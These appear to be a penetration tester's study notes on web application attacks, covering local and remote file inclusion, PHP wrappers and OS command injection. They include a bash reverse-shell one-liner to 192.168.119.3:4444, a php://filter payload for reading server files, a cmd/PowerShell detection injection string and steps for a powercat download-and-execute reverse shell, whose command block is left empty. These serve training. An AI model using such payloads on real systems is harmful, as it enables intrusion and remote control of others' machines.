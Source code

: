 ## Common Web Application Attacks

### File Inclusion Vulnerabilities

#### Local File Inclusion
- Bash reverse one-liner: `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`

#### PHP Wrappers
- [Official docs for wrappers](https://www.php.net/manual/en/wrappers.php)
- Wrappers enhance and expand php functionality
	- For example, if you want to feed a remote file from an ftp server to your php script, you may give your php script this URL:
		- `ftp://example.com/pub/file.txt`
- How's this helpful for pentesters? Well, if a vulnerable webserver is using php to handle http requests, perhaps you can pass in a php wrapper in the URL of a request and get php to resolve the wrapper and return the result.
- If there's a Local File Inclusion vulnerability on the webserver, this will be especially helpful because we can use wrappers to encode the result returned back to us, which is great if we want to see the contents of a php file on the webserver (and not have its contents be executed, thereby not getting returned to us)
	- Example: say `example.com` uses `index.php` to process URLs in http requests from users. The server is vulnerable to a File Inclusion Vulnerability, and a pentester tries to exploit this to see the contents of `/var/www/html/target.php` by sending a request for the page at URL `http://example.com/index.php?page=../../../../../var/www/html/target.php`. This probably won't work, because the code in `target.php` will be executed and the results returned to the requester, no the actual contents of `target.php`. But if we use the [php://filter wrapper](https://www.php.net/manual/en/wrappers.php.php) `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/target.php` then the base 64 encoded contents of `target.php` will be returned to us.
- NOTE: Remote File Inclusion (RFI) vulnerabilities are rare in the wild because a target system would have to specifically configured to allow it.

#### Remote File Inclusion
- If a web server is configured to interact with remote files, it may be susceptible to RFI exploitation
- Kali has some php web shells that can be used for RFI: `/usr/share/webshells/php/`

### File Upload Vulnerabilities
### OS Command Injection
- When encountering a web page that accepts user input commands:
	- Play around to figure out what kind of sanitization it's doing; figure out how to run a command like "dir" or "ls"
		- If on windows, use this command to determine if command is executed in cmd or powershell environment:
		 
			```text
			(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
			```
			
			- If Powershell, you can use `powercat` at `/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1` to create a reverse shell with netcat. To get it on the target, use this powershell command in the injection:
				```
				```
			- That powershell will download powercat.ps1 from your computer (make sure to put your IP in there and start a python webserver in the same directory as `powercat.ps1` with `python3 -m http.server 80`, and also have a netcat listener running on port 4444). You'll have to URL encode it when you throw the replayed http request with Burp Suite or mitmproxy.

